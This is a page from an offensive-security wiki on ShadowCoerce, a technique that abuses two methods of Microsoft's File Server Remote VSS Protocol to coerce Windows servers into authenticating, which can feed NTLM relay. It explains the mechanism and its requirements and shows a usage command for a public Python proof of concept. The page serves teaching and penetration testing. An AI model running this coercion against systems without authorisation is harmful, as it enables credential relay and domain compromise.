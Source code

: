 # MS-FSRVP abuse (ShadowCoerce)

## Theory

MS-FSRVP is Microsoft's File Server Remote VSS Protocol. It's used for creating shadow copies of file shares on a remote computer, and for facilitating backup applications in performing application-consistent backup and restore of data on SMB2 shares ([docs.microsoft.com](https://docs.microsoft.com/en-us/openspecs/windows\_protocols/ms-fsrvp/dae107ec-8198-4778-a950-faa7edad125b)).

In late 2021, [Gilles LIONEL](https://twitter.com/topotam77) published [slides](https://twitter.com/topotam77/status/1475701014204461056) showcasing [PetitPotam](ms-efsr.md) and demonstrating the possibility of abusing the protocol to coerce authentications on the last two slides.

Similarly to other MS-RPC abuses, this works by using a specific method relying on remote UNC paths. In this case, at the time of writing, two methods were detected as vulnerable: `IsPathSupported` and `IsPathShadowCopied`.

**The coerced authentications are made over SMB**. But MS-FSRVP abuse can be combined with [WebClient abuse](webclient.md) to elicit incoming authentications made over HTTP which heightens [NTLM relay](../ntlm/relay.md) capabilities (_<mark style="color:orange;">just a theory at the time of writing, 29th December 2021, not tested yet</mark>_).

A requirement to the abuse is to have the "File Server VSS Agent Service" enabled on the target server.

![](<../../../.gitbook/assets/File Server VSS Agent Service.png>)

## Practice

The following Python proof-of-concept ([https://github.com/ShutdownRepo/ShadowCoerce](https://github.com/ShutdownRepo/ShadowCoerce)) implements the `IsPathSupported` and `IsPathShadowCopied` methods.

```bash
shadowcoerce.py -d "domain" -u "user" -p "password" LISTENER TARGET
```

![](<../../../.gitbook/assets/MS FSRVP abuse example.png>)

{% hint style="info" %}
In my tests, the coercion needed to be attempted twice in order to work when the FssAgent hadn't been requested in a while. In short, run the command again if it doesn't work the first time.
{% endhint %}

## Resources

{% embed url="https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fsrvp/dae107ec-8198-4778-a950-faa7edad125b" %}

{% embed url="https://twitter.com/topotam77/status/1475701014204461056" %}

{% embed url="https://fr.slideshare.net/LionelTopotam/petit-potam-slidesrtfmossir" %}
